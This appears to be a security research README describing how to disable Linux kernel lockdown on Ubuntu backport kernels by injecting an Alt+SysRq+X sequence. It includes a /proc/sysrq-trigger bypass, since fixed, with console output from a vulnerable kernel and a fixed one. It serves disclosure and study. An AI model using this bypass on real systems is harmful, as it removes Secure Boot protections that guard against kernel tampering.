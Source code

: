 ## Disabling lockdown

The early versions of the lockdown patchset integrated kernel lockdown with UEFI secure boot and had a way to disable lockdown at runtime by sending an Alt+SysRq+X key sequence on an attached physical keyboard. Later those patches [were](https://lore.kernel.org/linux-security-module/20190306235913.6631-1-matthewgarrett@google.com/) [dropped](https://lore.kernel.org/linux-security-module/CACdnJuuxAM06TcnczOA6NwxhnmQUeqqm3Ma8btukZpuCS+dOqg@mail.gmail.com/) from the upstream patchset, but not from the distro backports.

While some ways to trigger Alt+SysRq+X from software (e.g. via `/dev/uinput`) were accounted for and disabled, a few still remain.
Here I'll show some methods to disable lockdown by injecting an Alt+SysRq+X key sequence without having physical access to the machine.

### Method 0: sysrq-trigger

The lockdown patchset included a patch that disallowed disabling lockdown by triggering a SysRq via `/proc/sysrq-trigger`.
Unfortunately, the early versions of this patch contained a [bug](https://lore.kernel.org/lkml/15833.1551974371@warthog.procyon.org.uk/) and the restriction hadn't actually been enforced. On Ubuntu the bug has been [introduced](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=531c25a35b2a93e025e72e04f16b0f3620ace581) with the first backport of the lockdown patches (since release in April 2018 for Bionic), and [fixed](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1851380) in December 2019.

Disabling lockdown with this method is trivial as shown [here](00-sysrq-trigger/run.sh).

Vulnerable:

```
# uname -a
Linux x1 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  315.760278] sysrq: SysRq : 
[  315.760282] This sysrq operation is disabled from userspace.
[  315.760292] Disabling Secure Boot restrictions
[  315.760296] Lifting lockdown
```

Fixed:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  208.412031] sysrq: SysRq : 
[  208.412032] This sysrq operation is disabled from userspace.
```
